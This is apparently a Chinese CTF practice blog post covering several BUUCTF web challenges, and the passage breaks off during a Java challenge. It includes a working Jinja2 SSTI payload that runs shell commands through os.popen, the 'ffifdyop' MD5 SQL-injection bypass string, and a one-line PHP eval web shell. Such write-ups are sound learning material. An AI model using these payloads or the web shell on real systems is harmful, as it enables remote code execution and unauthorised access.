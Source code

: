 # buu摸鱼日记（5）

## [BJDCTF 2nd]fake google

这题大威天龙，大胆妖孽，我一眼就看出他是SSTI

```
{{7*7}}{{7*'7'}}
```

可以判断他是flask框架

随手测试一下，发现甚至没有过滤

推断一下，是python3

拿burp爆破一下subclasses ，就可以得到要用的类

```
qaq?name={{().__class__.__bases__[0].__subclasses__()[64].__init__.__globals__.__builtins__['eval']("__import__('os').popen('find / -name \"flag*\"').read()")}}
```

于是读取目录，find命令查找flag 发现根目录里就有flag

然后cat flag 秒杀

这题不怎么难

## [BJDCTF2020]Easy MD5

说实话，题目不难，就是想不到

文件头里有个Hint（根本没看到）

select * from 'admin' where password=md5($pass,true)

关键是md5($pass,true)要返回一个'' or 1这样的东西

可以写个php来爆破，也可以网上找个Payload

**ffifdyop** 会形成'or'6<乱七八糟的值> 构成万能密码sql注入

后面一个是md5零值绕过 一个是数组绕过 都很简单，就不写了

## [ACTF2020 新生赛]Upload

简单的传马（我居然把码写错了）

写一下重新记一下

```php
<?php eval(@$_POST['a']);?>
```

## [RoarCTF 2019]Easy Java

完全没学过java,所以原理并不很清楚，大致复现了一下（迷迷糊糊）

一个另类的文件包含